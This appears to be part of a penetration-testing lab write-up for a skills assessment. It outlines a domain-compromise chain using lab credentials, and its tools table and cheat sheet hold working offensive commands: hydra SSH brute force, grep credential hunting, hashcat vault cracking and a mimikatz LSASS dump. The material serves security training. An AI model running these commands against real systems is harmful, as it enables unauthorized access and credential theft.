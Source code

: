 
## 🎯 Skills Assessment Questions

### Question 1: NEXURA\Administrator NTLM Hash
**Answer**: `{Extract from NTDS.dit output}`

**Methodology**:
1. ✅ Initial SSH brute force → jbetty:Texas123!@#
2. ✅ Credential hunting → hwilliam:dealer-screwed-gym1  
3. ✅ Network pivoting → Access to internal network
4. ✅ Share analysis → Password vault discovery
5. ✅ Vault cracking → bdavid credentials
6. ✅ Privilege escalation → mimikatz LSASS dump
7. ✅ Pass-the-Hash → stom account compromise
8. ✅ Domain compromise → NTDS.dit extraction

---

## 🔧 Tools Integration Summary

### Tools Used in Workflow
| Phase | Tool | Purpose | Alternative |
|-------|------|---------|-------------|
| **Recon** | username-anarchy | Username generation | Manual creation |
| **Initial** | Hydra | SSH brute force | NetExec ssh |
| **Hunting** | grep | Credential discovery | Manual file review |
| **Pivoting** | ligolo-ng | Network tunneling | Chisel, SSH tunnels |
| **Recon** | NetExec | Service enumeration | Nmap, custom scripts |
| **Shares** | Snaffler | Automated credential hunting | PowerHuntShares, manual |
| **Cracking** | hashcat | Password vault cracking | John the Ripper |
| **Memory** | mimikatz | LSASS credential extraction | pypykatz |
| **Domain** | NetExec | NTDS.dit extraction | secretsdump.py |

### Command Reference Quick Sheet
```bash
# Username generation
./username-anarchy FirstName LastName > users.txt

# SSH brute force
hydra -L users.txt -p 'Password123!' ssh://target

# Credential hunting
grep -r 'pass\|pwd\|cred' /home/ 2>/dev/null

# Internal enumeration  
netexec rdp targets.txt -u user -p password

# Share analysis
Snaffler.exe -u -s -n target.domain.com

# Password vault cracking
hashcat -m 5200 vault.psafe3 /usr/share/wordlists/rockyou.txt

# LSASS dumping
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

```